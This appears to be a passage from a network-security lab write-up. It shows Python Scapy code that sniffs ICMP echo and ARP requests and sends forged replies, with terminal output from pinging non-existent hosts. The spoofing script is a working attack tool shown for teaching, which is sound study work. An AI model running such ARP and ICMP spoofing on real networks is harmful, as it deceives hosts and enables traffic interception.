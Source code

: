 ```python

        else:
            print(f"Got ARP Request: {pkt[ARP].psrc} ({pkt[ARP].hwsrc}) -> {pkt[ARP].pdst} ({pkt[ARP].hwdst})")
            p = createARPReply(pkt)
            send(p, verbose = False, iface=IFACE)
            print(f"Spoofed ARP Reply: {p[ARP].psrc} ({p[ARP].hwsrc}) -> {p[ARP].pdst} ({p[ARP].hwdst})\n")

    elif (pkt.haslayer(ICMP)):
        if (isOnline(pkt[IP].dst)):
            print(f"IP {pkt[IP].dst} is online, ignoring ICMP Request")

        else:
            print(f"Got ICMP Request: {pkt[IP].src} -> {pkt[IP].dst}")
            p = createICMPReply(pkt)
            send(p, verbose = False)
            print(f"Spoofed ICMP Reply: {p[IP].src} -> {p[IP].dst}\n")

pkt = sniff(iface=IFACE, filter='(icmp[icmptype] = icmp-echo and src 10.9.0.5) or arp', prn=spoofing)
```

#### Ping a non-existing host on the Internet
To create the ICMP Reply packet, it is necessary to copy all of the fields and data from the captured ICMP Request packet and change the source and destination IP addresses. See the `createICMPReply` function.

```bash
root@982fef9740a3:/# ping 1.2.3.4
PING 1.2.3.4 (1.2.3.4) 56(84) bytes of data.
64 bytes from 1.2.3.4: icmp_seq=1 ttl=64 time=1175 ms
```

```bash
$ sudo python3 mycode.py
Got ICMP Request: 10.9.0.5 -> 1.2.3.4
Spoofed ICMP Reply: 1.2.3.4 -> 10.9.0.5
```

#### Ping a non-existing host on the LAN
Because the host is expected to be in the local network, the victim host will send an ARP Request to find the MAC address of the destination IP address. So, the program also needs to capture and spoof ARP Requests.

The ARP Reply packet is created by copying the source fields from the captured ARP Request packet to the destination fields of the ARP Reply packet and vice-versa, except for the MAC address of the source, which is an arbitrary value (e.g. `ff:00:ee:11:dd:22`) instead of a broadcast address. See the `createARPReply` function.

```bash
root@982fef9740a3:/# ping 10.9.0.99
PING 10.9.0.99 (10.9.0.99) 56(84) bytes of data.
64 bytes from 10.9.0.99: icmp_seq=1 ttl=64 time=14667 ms
```

